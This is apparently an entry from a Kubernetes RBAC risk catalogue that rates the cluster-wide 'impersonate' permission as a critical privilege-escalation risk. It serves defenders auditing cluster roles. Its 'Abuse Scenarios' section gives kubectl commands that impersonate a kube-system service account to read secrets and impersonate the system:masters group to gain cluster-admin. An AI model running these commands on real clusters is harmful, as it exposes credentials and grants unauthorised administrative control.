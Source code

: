 ```yaml
---
id: 1066
title: "Impersonate users, groups, or service accounts (cluster-wide)"
description: "Allows impersonating any user, group, or service account across the entire cluster via impersonation headers. This can be used to escalate privileges to the level of the impersonated identity, potentially gaining cluster-admin access."
category: Elevation of Privilege
risk_level: RiskLevelCritical
date: ""
---
```


## Overview

| Field         | Value                                                                                                                 |
| ------------- | --------------------------------------------------------------------------------------------------------------------- |
| ID            | 1066                                                                                                                  |
| Name          | Impersonate users, groups, or service accounts (cluster-wide)                                                         |
| Risk Category | Elevation of Privilege                                                                                                |
| Risk Level    | {{< risk Critical >}}                                                                                                 |
| Role Type     | ClusterRole                                                                                                           |
| API Groups    | core                                                                                                                  |
| Resources     | users, groups, serviceaccounts, userextras, uids                                                                      |
| Verbs         | impersonate                                                                                                           |
| Tags          | {{< tag "ClusterAdminAccess" >}} {{< tag "Impersonation" >}} {{< tag "PrivilegeEscalation" >}} {{< tag "Spoofing" >}} |

## Description

Allows impersonating any user, group, or service account across the entire cluster via impersonation headers. This can be used to escalate privileges to the level of the impersonated identity, potentially gaining cluster-admin access.

## Abuse Scenarios

1. Impersonate a service account to list secrets in kube-system.

```bash {copy=true}
kubectl get secrets -n kube-system --as=system:serviceaccount:kube-system:default
# Example: kubectl get secrets -n kube-system --as=system:serviceaccount:kube-system:kube-controller-manager

```

2. Impersonate a user in the 'system:masters' group to gain cluster-admin.

```bash {copy=true}
kubectl get nodes --as=admin --as-group=system:masters
# Example: kubectl get nodes --as=pwned-admin --as-group=system:masters

```
